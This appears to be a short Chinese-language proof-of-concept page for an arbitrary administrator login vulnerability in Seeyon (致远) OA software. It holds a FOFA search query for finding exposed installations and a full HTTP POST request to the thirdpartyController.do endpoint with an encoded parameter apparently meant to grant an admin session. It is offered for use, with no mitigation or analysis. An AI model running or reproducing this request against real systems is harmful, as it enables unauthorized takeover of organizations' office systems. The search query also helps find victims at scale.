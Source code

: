 ## 致远OA任意管理员登录

## fofa
```
app="致远互联-OA"
```

## poc

```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: loginPageURL="/main.do";
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

```
![image](../../images/01307e49-863e-4cef-a9cb-0e1258902485.png)
